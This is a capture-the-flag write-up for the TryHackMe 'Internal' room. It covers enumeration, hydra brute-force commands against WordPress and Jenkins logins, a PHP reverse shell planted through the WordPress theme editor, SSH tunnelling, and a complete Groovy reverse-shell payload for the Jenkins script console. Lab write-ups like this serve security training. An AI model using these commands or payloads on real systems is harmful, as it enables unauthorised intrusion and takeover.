

# Internal Writeup

## Overview

This is my writeup for the Internal room on TryHackMe.  Similar to the Relevant room, this room is not guided, so enumeration is key.  In order to gain root, you must know how to exploit Wordpress and manually enumerate the system once you have gained access.  You then have to exploit an internally hosted Jenkins server leading to a Docker container.

This is a hard room, so if you're a beginner, I would highly recommend trying some other rooms like [Alfred](/ctf-writeups/Alfred) and [Mr. Robot](/ctf-writeups/Mr.Robot) so that you become familiar with the technologies and techniques required to retrieve the flags.

## How to Access

I completed this challenge on TryHackme.  You can access it [here](https://tryhackme.com/room/relevant).

## Steps

#### Rules of Engagement

The instructions for this room define the following rules of engagement:

- Ensure that you modify your hosts file to reflect `internal.thm`
- Any tools or techniques are permitted in this engagement
- Locare and note all vulnerabilities found
- Submit the flags discovered to the dashboard (`user.txt`, `root.txt`)
- Only the IP address assigned to your machine is in scope

With that all noted down, let's begin!

#### Modifying `/etc/hosts`

As the first RoE states, we have to include `interal.thm` in our `/etc/hosts` file.  To do this, in a terminal, type:

```
$ sudo nano /etc/hosts
```

Then, copy and paste the IP address of the target machine type `internal.thm`.  Your file should look something like this:

```
127.0.0.1       localhost
127.0.1.1       kali
<ip_addr>       internal.thm

# The following lines are desirable for IPv6 capable hosts
::1      localhost ip6-localhost ip6-loopback
ff01::1 ip6-allnodes
ff02::2 ip6-allrouters
```

#### Scanning

Let's begin with an `nmap` scan:

```
$ nmap -sC -sV -oN scans/nmap_initial 10.10.167.33
# Nmap 7.91 scan initiated Thu May 27 16:57:47 2021 as: nmap -sC -sV -oN scans/nmap_initial 10.10.167.33
Nmap scan report for 10.10.167.33
Host is up (0.053s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 27 16:57:56 2021 -- 1 IP address (1 host up) scanned in 9.26 seconds
```

As the output shows, there are **2** open ports on the target machine:
- SSH on port 22 (Ubuntu v7.6p1)
- HTTP on port 80 (Apache v2.4.29)

#### Enumeration

Let's begin with the web server on port 80.  If you navigate to the website, it will show the default Apache web page.  Let's run `gobuster` to see if there is anything else running:

```
$ gobuster dir -u http://10.10.167.33/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.167.33/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/27 16:59:43 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://10.10.167.33/blog/]
/index.html           (Status: 200) [Size: 10918]                              
/javascript           (Status: 301) [Size: 317] [--> http://10.10.167.33/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.167.33/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]                                      
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.167.33/wordpress/] 
                                                                                     
===============================================================
2021/05/27 17:00:08 Finished
===============================================================
```

So there is a `/blog` directory which looks like this:


There is also two login pages.  One to `phpmyadmin` and one to `wordpress`:


Now that we know Wordpress is running in the background, we can run `wpscan` to enumerate this part of the site:

```
$ wpscan --url http://10.10.167.33/blog --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.167.33/blog/ [10.10.167.33]
[+] Started: Thu May 27 17:09:29 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.167.33/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.167.33/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.167.33/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.167.33/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.167.33/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu May 27 17:09:32 2021
[+] Requests Done: 48
[+] Cached Requests: 5
[+] Data Sent: 11.942 KB
[+] Data Received: 302.953 KB
[+] Memory used: 128.887 MB
[+] Elapsed time: 00:00:02
```

From the output, we can see that the scan has identified an `admin` user as well as the version of Wordpress being used - 5.4.2.  Trying some classic credential combinations confirms that `admin` is a valid user:


Let's boot up Burpsuite and see what's being sent when the login form is submitted:


We can now use this with `hydra` to brute force the password for the `admin` user.

#### Exploitation

Using the following `hydra` command, you are able to get the password for the `admin` user:

```
$ hydra -l admin -P  /usr/share/wordlists/rockyou.txt 10.10.167.33 -V http-form-post '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:S=location'
```

Here, we are using the `-l` to specify the username (`admin`), `-P` to specify the wordlist (`rockyou.txt`), and `-V` to use verbose mode.  We also use specify the type of the form using `http-form-post` and the paramters from Burpsuite.


Now, use these credentials to log in to the site.

Looking at the published pages, you will see that there is one private page:



This page holds credentials for `william`:


Unfortunately, this does not lead anywhere as there is no `william` user on the Wordpress site.

However, we can use the Wordpress Theme Editor to get a reverse shell.  I am using the PHP reverse shell from pentest monkey (find it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).

Then, choose a page to edit (I'm using `404.php`), and paste in the reverse shell.  Make sure to change the IP address and port so that you can catch the callback with `netcat`:


Then, configure `netcat` to listen on the port you chose.  Then, navigate to `/blog/wp-content/themes/twentyseventeen/404.php` and your `netcat` listener should catch the callback:


A quick look around the system reveals that there is a `aubreanna` user in the `/home` directory:


But we cannot access it, so we need to do some more enumeration.  However, this room has been set up in such a way to promote manual enumeration, so `linPEAS` will not work.

Looking through `/var/www/html`, you will find the `wp-config.php` file containing credentials to the `phpmyadmin` page we found earlier:


Eventually, you'll come across the `/opt` directory which contains the `wp-save.txt` file.

```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:***************
```

We can now use these credentials to login as `aubreanna` via SSH:


Now, we can grab the `user.txt` flag within `/home/aubreanna`:


All we have left to do now is escalate our privileges to grab the `root.txt` flag.

#### Privilege Escalation

Within the `/home/aubreanna` directory, there is also a `jenkins.txt` file:


Looks like there is an internal server running on `172.17.0.2:8080`.  We can use SSH tunnelling to allow open this server up:


Here we are creating a tunnel from port 4444 on our machine to port 8080 on the target machine.  This means that we can navigate to `localhost:4444` and access this internal server:


Similar to what we did earlier with Wordpress, we can view the Network tab of our browser's developer tools to see what is being sent when the login form is submitted:


We can then use `hydra` again to bruteforce the password for the `admin` user:

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 -V -f http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password'
```

Here we are using `-l` to specify the username (`admin`), `-P` to specify the wordlist (`rockyou.txt`), the IP and port to use (`127.0.0.1` (localhost) and `4444`), `-V` for verbose, and `-f` to tell `hydra` to exit once a valid combination is found.  We also specify that this uses the `POST` method (`http-post-form`) and pass in the parameters we found from the network tab.

Eventually, we manage to get the credentials for the `admin` user:


Once we log in, we see that version **2.250** of Jenkins is being used.  I found an article online ([here](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)) which says you can use the "Script console" to execute groovy scripts on the system.  We exploit this to gain a reverse shell back to our machine:


```
String host="<ip_address>";
int port=8888;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Make sure to run `netcat` on your chosen port so that it can catch the callback:


We are now logged in as the `jenkins` user, but we need to be `root`.  So, we need to do more enumeration.  We found credentials in the `/opt` directory last time, so let's start there.  It turns out that there is a `note.txt` file within this folder containing credentials for the `root` user:


Now, we can use `su` to switch user over to `root` and retrieve the `root.txt` flag:


And that's it!  All done!

## Summary and Feedback

In this room we:
- Scanned ports using `nmap`
- Enumerated Wordpress with `wpscan`
- Used `gobuster` to enumerate directories
- Used `hydra` to crack passwords
- Exploited Wordpress to gain a reverse shell
- Used SSH tunnelling to open up an internal Jenkins server
- Escalated our privileges Jenkins using the Groovy Script console

As you can see, this was a very complex room which incorporates a lot of different technologies.  If you are a beginner, one thing I would like you to take away from this is that enumeration is key.  Enumerate everything as much as you possibly can so that you have a better idea of what to do.

Another thing to keep in mind is that the obvious path sometimes isn't the correct one.  In this case, we found obvious credentials for multiple users like `william` and the `phpmyadmin` but they didn't lead anywhere.  If this happens, it is vital that you take a step back and reassess the information you have got up to this point, and then see what other routes you can go down.

I hope you enjoyed this writeup.